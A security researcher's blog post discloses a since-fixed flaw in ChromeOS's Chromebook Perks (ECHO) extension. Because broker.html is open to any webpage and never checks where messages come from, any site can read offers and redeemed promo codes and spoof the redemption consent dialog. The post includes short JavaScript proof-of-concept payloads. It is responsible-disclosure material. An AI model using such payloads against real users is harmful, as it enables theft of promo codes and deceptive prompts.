 ```yaml
---
title: Abusing the Chromebook Perks System to Steal Promo Codes
date: 11/18/23
description: The Chromebook Perks page lets you redeem a few promo codes for your Chrome OS device, but how this page actually validates your device is rather interesting. Unfortunately for Google, they didn't make this system very secure.
url: https://ading.dev/blog/posts/echoanywhere.html
---
```


## Introduction:
If you've ever owned a personal Chromebook, then you've likely seen the [Chromebook Perks](https://www.google.com/chromebook/perks/) page. This site hosts a list of offers for your specific Chrome OS device, and lets you redeem some promo codes for various services. The interesting part about this page is how it actually validates whether or not you're using an eligible device. Unfortunately for Google, they didn't make this system very secure. 

## The Chromebook Perks System:
The Perks page isn't actually responsible for checking the available offers and redeeming them. Instead, this is handled by a hidden Chrome extension called ECHO, which the webpage can send data to. Just like QuickOffice, ECHO is a component extension, meaning that it's included with every Chrome OS installation. Also, it should be noted that all of this code is inside the proprietary portion of Chrome OS, which is probably why this bug was only discovered recently. 

The ECHO extension (sometimes called "Chrome Goodies") has access to a few private Chrome APIs, the most important one being `chrome.echoPrivate`. This API is responsible for the user consent prompt, as well as returning a list of valid offers. The extension also has the ability to retrieve hidden system information, such as the board name and the device ID, which is used for the validation aspect.

The method that the Perks page uses to communicate to the extension is rather shoddy. For whatever reason, instead of using the [`chrome.runtime`](https://developer.chrome.com/docs/extensions/reference/runtime/) API to handle this, Google opted to use an iframe. The page simply puts an extension page inside an iframe (`chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn/broker.html`) and posts messages to it via `iframe.postMessage`. Apparently this may have once been an intended feature, but who knows what they were thinking back in 2012 when most of this code was written.

After this, the `broker.html` page receives the posted data and passes it on to the extension's background page (this time using `chrome.runtime`). This is where the private APIs mentioned earlier are actually used. The response is passed back to `broker.html`, which finally returns this data to the Perks page by posting a message to its parent. 

## The Vulnerability:
Chrome only lets regular webpages iframe an extension page if that extension has explicitly allowed it. Normally, to reduce the chances of abuse, an extension would restrict access to only a few domains. The manifest of the ECHO extension, however, allows *any* webpage to access `broker.html`, via the [`web_accessible_resources`](https://developer.chrome.com/docs/extensions/mv2/manifest/web_accessible_resources/) property. Additionally, the ECHO extension never checks where the messages originate from, so any webpage is able to impersonate the Perks page and communicate with the extension.

What's puzzling about this bug is that the code for handing `chrome.runtime` messages is already present in the extension, so there's no reason to use the insecure iframe method. Also present in the Chrome Perks system [is code which utilizes](https://web.archive.org/web/20231116025133/https://www.gstatic.com/chromeos/offers/js/echo_provider_api.js) the removed [Web Intents](https://en.wikipedia.org/wiki/Web_Intents) API to communicate with the extension. This API only existed for six Chrome versions (18 to 23) before being removed in 2012. Even after this bug was fixed, the broken Web Intents code *still* exists in the current Chrome Perks page.

So what can an attacker do with this anyways?

## Possible Payloads:
Here's a minimal proof-of-concept which is able to post messages to the extension and get all the offers the current device is eligible for, as well as any previously redeemed promo codes.
```js
let iframe = document.createElement("iframe");
iframe.src = "chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn/broker.html";
iframe.style.display = "none";
iframe.onload = () => {
  iframe.contentWindow.postMessage({
    cmd: "getOfferInfo"
  }, "chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn");
};
window.addEventListener("message", console.log);
document.body.append(iframe);
```

A webpage is also able to trigger the user consent prompt for redeeming an offer. If the user hits allow, then the offer gets redeemed, with the malicious page receiving the stolen promo code. 
```js
iframe.contentWindow.postMessage({
  origin: "https://www.google.com/chromebook/perks/",
  serviceId: "minecraft.2023",
  serviceName: "free minecraft fr fr",
  requestNonce: ""+Math.random(),
  isGroupType: false,
  isDebugMode: false,
  otcCode: false
}, "chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn");
```

Once this code is run, the following popup gets displayed:

![the fake user consent popup](/blog/assets/echoanywhere/echo_popup_small.png)

In this case, the `serviceId` determines which offer gets redeemed, with the `minecraft.2023` offer corresponding to the [free Minecraft](https://chromeunboxed.com/chromebook-perk-minecraft-realms) promotion happening right now. Once the user hits the "allow" button, the offer will be redeemed, and the malicious page can see the returned promo code. 

The service name can also be set to any string, which will influence what is shown in the dialog. If this is set to a long enough string, the "wants to check if you are using an eligible Chrome OS device" part of the dialog disappears. This dialog is also able to block all inputs to the browser window, which can be used for a denial-of-service attack.

## Conclusion:
I reported this vulnerability to Google on May 6th, 2023. It was immediately classified as P1/S1 (high priority, high severity), although it would take until August 10th until it would finally be fixed. Shortly after the bug was marked as fixed, it was tagged as `reward-topanel`, which meant that it was headed to the [VRP panel](https://bughunters.google.com/about/rules/5745167867576320/chrome-vulnerability-reward-program-rules) to have a reward amount determined. It's been over 90 days since this happened, so I guess they forgot about it or something.

You can take a look at the original [bug report](https://bugs.chromium.org/p/chromium/issues/detail?id=1443214) if you want, and here's a link to my [final POC](https://local.ading.dev/echoanywhere/).

Anyways, it turns out that if you still ship legacy proprietary code from 2012, large security issues will show up as soon as someone actually takes a good look at it. Sure enough, other portions of the ECHO system turned out to vulnerable as well, as [Bypassi](https://blog.bypassi.com/) would discover soon after. But that's a story for another day.